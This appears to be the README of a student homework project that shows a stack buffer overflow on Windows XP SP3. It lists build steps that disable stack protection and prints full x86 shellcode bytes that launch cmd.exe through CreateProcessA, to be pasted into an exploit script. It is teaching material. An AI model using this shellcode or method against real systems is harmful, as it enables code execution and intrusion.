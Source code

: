 # Buffer Overflow Example for Windows XP SP3

## Overview

This project demonstrates a **buffer overflow exploit** targeting a vulnerable program on **Windows XP SP3**. The `shell.asm` x86 shellcode creates a new process using `CreateProcessA` with hardcoded API addresses. Designed for **educational purposes**, it highlights how buffer overflows work and how shellcode executes.

**Created for CS166, HW5. Educational purposes only.**

![Buffer Overflow Demo](output.gif)

---
## Files

- `shell.asm`: Shellcode payload in x86 Intel assembly.
- `bo.c`: Vulnerable program, binds a socket on the given IP and port.
- `exploit.py`: Python script for exploiting the buffer overflow vulnerability.

---

## Usage

### 1. Compile the Vulnerable Program
   Compile the C program using a 32-bit MinGW compiler:
   ```bash
   i686-w64-mingw32-gcc -fno-stack-protector -no-pie -m32 -o bo.exe bo.c -lws2_32
   Usage: .\bo.exe <IP> <PORT> 
   ```

### 2. Compile the Shellcode and Convert to a Hex String
   Assemble the shellcode using NASM and convert it into a hex string:
   ```bash
   nasm -f win32 shellcode.asm -o shellcode.o

   objdump -M intel -d shellcode.o | grep '[0-9a-f]:' | grep -v 'file' | \
   cut -f2 -d: | cut -f1-6 -d' ' | tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | \
   sed 's/ /\\x/g' | tr -d '\n' | sed 's/^/"/' | sed 's/$/"/g'
   ```

   Example Output:
   ```
   "\x31\xd2\x31\xc9\x51\x68\x65\x78\x65\x00\x68\x63\x6d\x64\x2e\x89\xe3\x83\xec\x54\x89\xe7\x51\x58\xb9\x15\x00\x00\x00\xf3\xab\x83\xef\x54\xc6\x07\x44\x8d\x77\x44\x56\x57\x51\x51\x6a\x00\x6a\x01\x51\x51\x53\x51\xb8\x6b\x23\x80\x7c\xff\xd0\x6a\x00\xb8\x0a\xd2\x81\x7c\xff\xd0"
   ```

### 3. Copy the Hex String into `exploit.py`
   Replace the placeholder buffer in `exploit.py` with the generated hex string:
   ```py
   buf = b"\x31\xd2\x31\xc9\x51\x68\x65\x78\x65\x00\x68\x63\x6d\x64\x2e\x89\xe3\x83\xec\x54\x89\xe7\x51\x58\xb9\x15\x00\x00\x00\xf3\xab\x83\xef\x54\xc6\x07\x44\x8d\x77\x44\x56\x57\x51\x51\x6a\x00\x6a\x01\x51\x51\x53\x51\xb8\x6b\x23\x80\x7c\xff\xd0\x6a\x00\xb8\x0a\xd2\x81\x7c\xff\xd0"
   ```

### 4. Run `exploit.py`
   Install the `pwn` library if not already installed:
   ```bash
   pip install pwntools
   ```

   Execute the exploit:
   ```bash
   python exploit.py
   ```
---

## References (IEEE Style)

[1] Shell-Storm, "Shellcode Examples Database," [Online]. Available: [https://shell-storm.org/shellcode/index.html](https://shell-storm.org/shellcode/index.html). [Accessed: Dec. 2, 2024].

[2] Cocomelonc, "Windows Shellcoding Example: Writing and Testing Shellcode for Windows," [Online]. Available: [https://cocomelonc.github.io/tutorial/2021/10/27/windows-shellcoding-1.html](https://cocomelonc.github.io/tutorial/2021/10/27/windows-shellcoding-1.html). [Accessed: Dec. 2, 2024].

[3] M. Valle, "Windows Manual Shellcode Part 3: CreateProcessA," [Online]. Available: [https://marcosvalle.github.io/re/exploit/2018/10/21/windows-manual-shellcode-part3.html](https://marcosvalle.github.io/re/exploit/2018/10/21/windows-manual-shellcode-part3.html). [Accessed: Dec. 2, 2024].

[4] The Grey Corner, "Beginning Stack-Based Buffer Overflow," [Online]. Available: [https://thegreycorner.com/2010/01/07/beginning-stack-based-buffer-overflow.html](https://thegreycorner.com/2010/01/07/beginning-stack-based-buffer-overflow.html). [Accessed: Dec. 2, 2024].

[5] Insecure.org, "Smashing The Stack For Fun And Profit," [Online]. Available: [http://insecure.org/stf/smashstack.html](http://insecure.org/stf/smashstack.html). [Accessed: Dec. 2, 2024].

[6] Y. K. Kim, "Window Socket Programming," [Online]. Available: [https://ykkim.gitbook.io/ec/other-programming/socket-programming/window-socket-programming](https://ykkim.gitbook.io/ec/other-programming/socket-programming/window-socket-programming). [Accessed: Dec. 2, 2024].


